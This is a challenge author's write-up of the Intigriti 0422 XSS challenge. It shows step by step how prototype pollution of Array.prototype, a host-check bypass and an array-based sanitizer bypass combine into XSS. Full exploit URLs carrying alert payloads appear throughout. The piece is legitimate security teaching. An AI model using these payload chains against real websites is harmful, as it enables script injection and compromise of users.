 ```yaml
---
title: Intigriti 0422 XSS Challenge Author Writeup
date: 2022-04-25 08:20:16
tags: [Security]
categories: [Security]
translator: huli
photos: /img/intigriti-0422-xss-challenge-author-writeup/cover-en.png
---
```


<img src="/img/intigriti-0422-xss-challenge-author-writeup/cover-en.png" style="display:none">

Challenge URL: https://challenge-0422.intigriti.io/

<!-- more -->

## Solution

TL;DR

1. Pollute Array.prototype via `merge` function
2. Bypass `checkHost()`
3. Set `innerHTML` and bypass `sanitize()` to perform XSS

### Step1. Prototype pollution on Array.prototype

First, let's take a look at the `merge` function:

``` js
function merge(target, source) {
  let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]

  for(let key in source) {
    if (protectedKeys.includes(key)) continue

    if (isPrimitive(target[key])) {
      target[key] = sanitize(source[key])
    } else {
      merge(target[key], source[key])
    }
  }
}

function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

In the `merge` function, `__proto__` is blocked, but we can bypass it using `constructor.prototype`.

Then, below is the key of the first step:

``` js
const qs = m.parseQueryString(location.search)

let appConfig = Object.create(null)
appConfig["version"] = 1337
appConfig["mode"] = "production"
appConfig["window-name"] = "Window"
appConfig["window-content"] = "default content"
appConfig["window-toolbar"] = ["close"]
appConfig["window-statusbar"] = false
appConfig["customMode"] = false

if (qs.config) {
  merge(appConfig, qs.config)
  appConfig["customMode"] = true
}
```

Although we can't pollute `Object.prototype` because `appConfig` is created from `Object.create(null)`, we can pollute `Array.prototype` via `appConfig['window-toolbar']` which is an array!

So, we can pollute `Array.prototype` by providing a config object like this:

```
config[window-toolbar][constructor][prototype][0]=abc
// equals to ['close'].constructor.prototype.0 = 'abc'
```

But the question is, what property should be polluted? 

### Step2. Bypass checkHost

There is another call to `merge`, and it's the second part of the challenge:

``` js
function checkHost() {
  const temp = location.host.split(':')
  const hostname = temp[0]
  const port = Number(temp[1]) || 443
  return hostname === 'localhost' || port === 8080
}

let devSettings = Object.create(null)
devSettings["root"] = document.createElement('main')
devSettings["isDebug"] = false
devSettings["location"] = 'challenge-0422.intigriti.io'
devSettings["isTestHostOrPort"] = false

if (checkHost()) {
  devSettings["isTestHostOrPort"] = true
  merge(devSettings, qs.settings)
}
```

We need to make `checkHost()` return `true` to perform another merge call. 

In `checkHost`, it checks if hostname is localhost or port is 8080, let's take a closer look at the check:

``` js
function checkHost() {
  const temp = location.host.split(':')
  const hostname = temp[0]
  const port = Number(temp[1]) || 443
  return hostname === 'localhost' || port === 8080
}
```

It seems invulnerable, but what if `location.host` has no port?

For example, assumed `location.host` is `intigriti.io`, then `temp` becomes `['intigriti.io']`, and `temp[1]` is `undefined` because the length of the array is 1.

Here comes a cool way to bypass the check, what if `Array.prototype[1]` has been polluted? 

The JavaScript engine will look up `Array.prototype[1]` since `temp` has no property `1`. So, combined with the step1, we can pollute `Array.prototype[1]` to bypass the check:

```
config[window-toolbar][constructor][prototype][1]=8080
```

By the way, I got this idea from another challenge called `vm-calc` made by [@Strellic_](https://twitter.com/Strellic_) in DiceCTF 2022, kudos to the creator.

### Step3. Override innerHTML

After bypass the check, we have another merge call:

``` js
let devSettings = Object.create(null)
devSettings["root"] = document.createElement('main')
devSettings["isDebug"] = false
devSettings["location"] = 'challenge-0422.intigriti.io'
devSettings["isTestHostOrPort"] = false

if (checkHost()) {
  devSettings["isTestHostOrPort"] = true
  merge(devSettings, qs.settings)
}
```

`devSettings["root"]` is an HTML element, so we can use `?settings[root][innerHTML]` to set it's innerHTML and try to perform XSS.

But, it's not gonna work for two reasons.

First, there is a `sanitize` function for filtering `<` and `>`.

Second, the element only inserted to DOM after `m.mount()`, the content will be override by mithril.js


For the first issue, we can resolve it by using a bug in `sanitize` function:

``` js
function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

What if `data` is an array? For example, `['<a>hello</a>']`?

Because it's not a string, so it won't be sanitized, the function just return the original value. When you assign this array to `innerHTML`, it casts to string.

So, we can use `?settings[root][innerHTML][0]=<svg onload=alert(1)>` to bypass the sanitizer.

We are close to the end but need to address the last issue. The content of the element will be override by `m.mount` so our payload in `innerHTML` won't work, how should we resolve this?

The idea is simple, what if we can set `innerHTML` to `document.body` instead of `<main>`? Then our payload won't be override by mithril.js

There is a property called [ownerDocument](https://developer.mozilla.org/zh-TW/docs/Web/API/Node/ownerDocument), we can access `document` via this.

So, we can set innerHTML on body and perform XSS this way:

```
config[window-toolbar][constructor][prototype][1]=8080
settings[root][ownerDocument][body][innerHTML][0]=<svg onload=alert(document.domain)>
```

URL:
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config[window-toolbar][constructor][prototype][1]=8080&settings[root][ownerDocument][body][innerHTML][0]=%3Cstyle%20onload%3Dalert(document.domain)%3E

There is another magic to solve the issue without overriding `document.body.innerHTML`.

As pointed out [here](https://github.com/terjanq/Tiny-XSS-Payloads/blob/5e8603974ef878e1230ae05e7f79b9467d862e2c/payloads.js#L93), `<img src=x onerror=alert(1)>` works even before inserted into the DOM. We can use this magic to set `root.innerHTML` and get XSS.

URL:
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config[window-toolbar][constructor][prototype][1]=8080&settings[root][innerHTML][0]=%3Cimg%20src%3Dx%20onerror%3Dalert(document.domain)%3E

## Plot twist

What if I told you that all the solutions above are unintended?

The challenge was easier than I thought because I made a few bugs, making the intended solution unnecessary and redundant. It’s like there should be five steps for solving the challenge, but you can solve it in step2 because of the bugs.

The challenge should be more complex and interesting.

So, here comes **the revenge of Intigriti 0422 challenge**!

I patched the bugs and hosted the fixed challenge on GitHub, here is the challenge URL: https://aszx87410.github.io/xss-challenge/revenge-of-intigriti-0422

You can found the diff below:

``` diff
function sanitize(data) {
- if (typeof data !== 'string') return data
+ if (typeof data !== 'string') data = String(data)

function merge(target, source) {
- let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]
+ let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m", "Object"]
```

The revenge of Intigriti 0422 challenge runs until `2022-05-01T23:59:59+00:00`, you can DM me on [Twitter](https://twitter.com/aszx87410) if you find the solution.

Please noted that the revenge of Intigriti 0422 challenge is a challenge **hosted by my own, not Intigriti**, so there is no swag voucher for the winners.